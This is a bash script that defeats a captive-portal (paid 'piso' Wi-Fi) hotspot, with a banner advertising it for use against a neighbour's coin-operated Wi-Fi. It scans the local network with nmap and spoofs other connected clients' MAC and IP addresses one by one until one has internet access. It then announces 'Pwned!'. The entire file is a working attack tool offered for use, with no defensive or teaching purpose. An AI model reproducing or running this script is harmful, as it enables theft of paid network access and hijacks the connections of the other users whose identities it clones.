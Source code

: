 logo() {
echo ""
echo -e "\e[91m                 o      oooo   oooo ooooooooooo ooooo \e[25m"
echo -e "\e[91m                888      8888o  88  88  888  88  888  \e[25m"
echo -e "\e[91m               8  88     88 888o88      888      888  \e[25m"
echo -e "\e[91m              8oooo88    88   8888      888      888  \e[25m"
echo -e "\e[91m            o88o  o888o o88o    88     o888o    o888o \e[25m"
echo ""
echo -e "\e[92m\e[1m           oooooooooo  ooooo  oooooooo8    ooooooo   "
echo -e "\e[92m\e[1m            888    888  888  888         o888   888o "
echo -e "\e[92m\e[1m            888oooo88   888   888oooooo  888     888 "
echo -e "\e[92m\e[1m            888         888          888 888o   o888 "
echo -e "\e[92m\e[1m           o888o       o888o o88oooo888    88ooo88   "
echo ""
echo -e "\e[92m\e[1m           oooo     oooo ooooo ooooooooooo ooooo     "
echo -e "\e[92m\e[1m            88   88  88   888   888    88   888     PARA SA  "
echo -e "\e[92m\e[1m             88 888 88    888   888ooo8     888     PISO WIFI "
echo -e "\e[92m\e[1m              888 888     888   888         888     NG KAPIT BAHAY "
echo -e "\e[92m\e[1m               8   8     o888o o888o       o888o     "
echo ""
echo ""
}

interface="$(ip -o -4 route show to default | awk '/dev/ {print $5}')"
localip="$(ip -o -4 route get 1 | awk '/src/ {print $7}')"
wifissid="$(iw dev "$interface" link | awk '/SSID/ {print $NF}')"
gateway="$(ip -o -4 route show to default | awk '/via/ {print $3}')"
broadcast="$(ip -o -4 addr show dev "$interface" | awk '/brd/ {print $6}')"
ipmask="$(ip -o -4 addr show dev "$interface" | awk '/inet/ {print $4}')"
netmask="$(printf "%s\n" "$ipmask" | cut -d "/" -f 2)"
netaddress="$(sipcalc "$ipmask" | awk '/Network address/ {print $NF}')"
network="$netaddress/$netmask"
macaddress="$(ip -0 addr show dev "$interface" \
              | awk '/link/ && /ether/ {print $2}' \
              | tr '[:upper:]' '[:lower:]')"

# Check for running as root.
function check_sudo() {
  if [[ "$EUID" -ne 0 ]]; then
    printf "%b\n" "ERROR This script must be run as root. Use sudo." >&2
    exit 1
  fi
}

# Create a temporary folder for script work.
function create_tmp() {
  unset tmp
  tmp="$(mktemp -q -d "${TMPDIR:-/tmp}/hackaptive_XXXXXXXXXX")" || {
    printf "%b\n" "ERROR Unable to create temporary folder. Abort." >&2
    exit 1
  }
}

# Clean tmp/ on exit due to any reason.
function clean_up() {
  rm -rf "$tmp"
  trap 0
  exit
}

# Split up big networks into smaller chunks of /24.
function calc_network() {
  printf "%b\n" "Exploring network in \"$wifissid\" Wi-Fi hotspot."
  if [[ "$netmask" -lt 24 ]]; then
    sipcalc -s 24 "$network" \
    | awk '/Network/ {print $3}' > "$tmp"/networklist.$$.txt
    printf "%b\n" "Splitting up network $network into smaller chunks."
  else
    printf "%s\n" "$network" | cut -d "/" -f 1 > "$tmp"/networklist.$$.txt
  fi
}

# Select network, set netmask, scan it for IP and MAC and hijack them. Repeat.
function main() {
  while read -r networkfromlist; do
    if [[ "$netmask" -lt 24 ]]; then
      network="$networkfromlist/24"
    else
      network="$networkfromlist/$netmask"
    fi

  # Scan selected network for active hosts.
  printf "%b\n" "Looking for active hosts in $network. Please wait."
  nmap -n -sn -PR -PS -PA -PU -T5 --exclude "$localip","$gateway" "$network" \
  | awk '/for/ {print $5} ; /Address/ {print $3}' \
  | sed '$!N;s/\n/ - /' > "$tmp"/hostsalive.$$.txt

  # Set founded IP and MAC for wireless interface.
    while read -r hostline; do
      newipset="$(printf "%s\n" "$hostline" | awk '{print $1}')"
      newmacset="$(printf "%s\n" "$hostline" \
                   | awk '{print $3}' \
                   | tr '[:upper:]' '[:lower:]')"
      printf "%b\n" "Trying to hijack $newipset - $newmacset"
      ip link set "$interface" down
      ip link set dev "$interface" address "$newmacset"
      ip link set "$interface" up
      ip addr flush dev "$interface"
      ip addr add "$newipset/$netmask" broadcast "$broadcast" dev "$interface"
      ip route add default via "$gateway"
      sleep 1

      # Check if Google DNS pingable with our new IP and MAC.
      ping -c1 -w1 8.8.8.8 >/dev/null
      if [[ $? -eq 0 ]]; then
        printf "%b\n" "Pwned! Now you can surf the Internet!"
        exit 0
      fi
    done < "$tmp"/hostsalive.$$.txt
    rm -rf "$tmp"/hostsalive.$$.txt
    printf "%b\n" "Suitable hosts not found. Checking another network chunk."

  done < "$tmp"/networklist.$$.txt
  rm -rf "$tmp"/networklist.$$.txt
  printf "%b\n" "No luck! Try again later or try another Wi-Fi hotspot."

  # Restore original MAC and IP.
  ip link set "$interface" down
  ip link set dev "$interface" address "$macaddress"
  ip link set "$interface" up
  ip addr flush dev "$interface"
  ip addr add "$ipmask" broadcast "$broadcast" dev "$interface"
  ip route add default via "$gateway"
}

# Functions start here.
clear
logo
trap clean_up 0 1 2 3 15
check_sudo
create_tmp
calc_network
main

